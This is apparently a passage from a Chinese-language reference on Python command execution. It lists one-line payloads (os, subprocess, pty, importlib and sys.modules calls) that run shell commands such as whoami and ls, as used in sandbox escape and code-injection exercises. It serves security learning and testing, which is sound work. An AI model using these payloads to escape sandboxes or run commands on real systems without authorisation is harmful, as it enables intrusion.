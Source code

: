 ```py
__import__('os').execvpe('sh', ['xx'], __import__('os').environ)
```

os.fork() with os.exec*()
```py
(__import__('os').fork() == 0) and __import__('os').system('ls')
```

#### subprocess 模块
```py
import subprocess
subprocess.Popen('ls', shell=True, stdout=subprocess.PIPE, stderr=subprocess.STDOUT).stdout.read()

# python2
subprocess.call('whoami', shell=True)
subprocess.check_call('whoami', shell=True)
subprocess.check_output('whoami', shell=True)
subprocess.Popen('whoami', shell=True)

# python3
subprocess.run('whoami', shell=True)
subprocess.getoutput('whoami')
subprocess.getstatusoutput('whoami')
subprocess.call('whoami', shell=True)
subprocess.check_call('whoami', shell=True)
subprocess.check_output('whoami', shell=True)
subprocess.Popen('whoami', shell=True)
__import__('subprocess').Popen('whoami', shell=True)
```


#### pty模块
- pty.spawn

仅限Linux环境

```py
import pty
pty.spawn("ls")
__import__('pty').spawn("ls")
```

#### importlib 模块
```py
import importlib
__import__('importlib').import_module('os').system('ls')
# Python3可以，Python2没有该函数
importlib.__import__('os').system('ls')
```

#### sys

该模块通过 modules() 函数获取 os 模块并执行命令。

```py
import sys
sys.modules['os'].system('calc')
```
